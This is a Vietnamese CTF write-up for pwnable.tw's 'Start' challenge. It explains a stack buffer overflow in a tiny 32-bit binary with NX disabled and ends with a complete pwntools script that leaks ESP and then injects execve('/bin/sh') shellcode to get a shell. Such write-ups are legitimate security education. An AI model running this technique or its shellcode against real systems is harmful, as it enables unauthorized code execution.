# CTF WriteUp: Pwnable.tw - Start (100 points)

## 1. Giới thiệu (Introduction)
- **Nền tảng:** Pwnable.tw
- **Tên thử thách:** Start
- **Phân loại:** Pwnable / Buffer Overflow / Shellcode
- **Mục tiêu:** Lợi dụng lỗi tràn bộ đệm (Buffer Overflow) để lấy được shell và đọc file flag.

---

## 2. Phân tích file (Binary Analysis)

### 2.1. Kiểm tra thông tin file và các cơ chế bảo vệ (Checksec)
Bước đầu tiên, chúng ta sẽ kiểm tra xem file thực thi là loại nào và có các cơ chế bảo vệ (mitigations) nào được bật hay không.



Dựa vào kết quả kiểm tra (như `file` và `checksec`), ta có thể thấy đây là một binary ELF 32-bit statically linked. 
Quan trọng nhất là cơ chế **NX (No-eXecute)** bị vô hiệu hóa (NX disabled). Điều này có nghĩa là vùng nhớ Stack có thể thực thi được code, mở ra hướng tấn công sử dụng **Shellcode**.

### 2.2. Dịch ngược và Phân tích assembly
Sử dụng các công cụ như IDA, Ghidra hoặc `objdump` / `gdb` để xem luồng thực thi của chương trình. Vì chương trình rất nhỏ, ta tập trung vào hàm `_start`:




Có thể thấy chương trình không sử dụng các hàm thư viện C (như printf, scanf) mà gọi trực tiếp các **System Call** (Syscall) của Linux:
1. `sys_write`: In ra màn hình dòng chữ `Let's start the CTF:`.
2. `sys_read`: Đọc đầu vào từ người dùng lưu vào stack.




Lỗ hổng nằm ở việc chương trình cấp phát cho buffer một vùng nhớ rất nhỏ (chỉ **20 bytes** trên stack), nhưng lệnh `sys_read` lại cho phép người dùng nhập vào tối đa **0x3c (60) bytes**. 
Điều này dẫn đến lỗi **Buffer Overflow**, cho phép ta ghi đè địa chỉ trả về (Return Address) của chương trình.

---

## 3. Kế hoạch Khai thác (Exploitation)

Vì NX bị vô hiệu hóa, ta có thể đặt shellcode lên stack và nhảy tới đó để thực thi. Tuy nhiên, do tính năng ASLR (Address Space Layout Randomization) của server, địa chỉ của stack sẽ thay đổi mỗi lần chạy. Ta không thể biết trước địa chỉ chính xác để nhảy tới.
Do đó, kịch bản khai thác cần chia thành 2 giai đoạn:

### 3.1. Giai đoạn 1: Leak ESP (Lấy địa chỉ Stack)
Mục tiêu của phần này là lấy được địa chỉ của Stack (ESP) bị rò rỉ.
Ta nhận thấy sau khi gọi `sys_write`, chương trình sẽ dọn dẹp và gọi `sys_read`. Nếu ta dùng lỗi tràn bộ đệm để ghi đè Return Address trỏ ngược lại đúng vào đoạn code gọi `sys_write` (cụ thể là lệnh `mov ecx, esp` thay vì dòng text ban đầu), chương trình sẽ "vô tình" in ra nội dung của thanh ghi ESP thay vì in ra dòng chữ ban đầu!




Ta tìm được địa chỉ của đoạn lệnh in ra stack (gadget) để làm đích nhảy cho payload.




Sau khi gửi payload 1, chương trình sẽ leak ra 4 bytes của địa chỉ stack. Ta nhận giá trị này và tính toán.

### 3.2. Giai đoạn 2: Chèn Shellcode và Nhảy đến Shellcode
Sau khi chương trình in ra địa chỉ ESP, nó sẽ tiếp tục chạy đến lệnh `sys_read` một lần nữa (vì ta đã nhảy lại vòng lặp của _start). 
Lúc này, ta đã biết chính xác vị trí của Stack. Ta sẽ gửi **Payload 2** chứa:
- Padding để tràn buffer (20 bytes).
- Địa chỉ trả về: bằng địa chỉ ESP vừa leak được + một khoảng offset nhỏ để trỏ đúng tới vị trí bắt đầu của Shellcode.
- Shellcode (lệnh thực thi `/bin/sh`).





Quá trình debug trong GDB giúp ta xác nhận chính xác các offset cần thiết để ESP trỏ đúng vào shellcode.

---

## 4. Mã nguồn Khai thác (Exploit Script)

Dưới đây là kịch bản khai thác hoàn chỉnh sử dụng thư viện `pwntools` trong Python:



```python
from pwn import *

# Khởi tạo kết nối tới server (hoặc chạy local)
# r = process('./start')
r = remote('chall.pwnable.tw', 10000)

r.recvuntil(b"Let's start the CTF:")

# --- Giai đoạn 1: Leak địa chỉ ESP ---
# Địa chỉ lệnh: mov ecx, esp; ... int 0x80 (dùng để in nội dung ESP ra)
mov_ecx_esp_addr = 0x08048087 

# Gửi 20 bytes rác để lấp đầy buffer, sau đó ghi đè Return Address
payload1 = b'A' * 20 + p32(mov_ecx_esp_addr)
r.send(payload1)

# Nhận 4 bytes địa chỉ được leak ra từ ESP
leaked_esp = u32(r.recv(4))
log.info(f"[+] Leaked Stack Address (ESP): {hex(leaked_esp)}")

# --- Giai đoạn 2: Gửi Shellcode ---
# Shellcode thực thi /bin/sh (x86 - 32 bit)
shellcode = b"\x31\xc9\xf7\xe1\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xb0\x0b\xcd\x80"

# ESP leak được đang trỏ tới đầu của chuỗi ta gửi.
# Return Address (4 bytes) + 20 bytes padding = 20. Do đó offset = 20.
target_eip = leaked_esp + 20

# Payload 2: lấp đầy buffer + địa chỉ của shellcode + shellcode
payload2 = b'A' * 20 + p32(target_eip) + shellcode
r.send(payload2)

# Chuyển quyền điều khiển shell cho người dùng
r.interactive()
```

---

## 5. Kết quả (Result)

Sau khi chạy kịch bản khai thác thành công, ta đã lấy được shell và dễ dàng đọc được file flag.



**Flag:** `FLAG{...}` (Thay bằng flag thực tế của bạn)
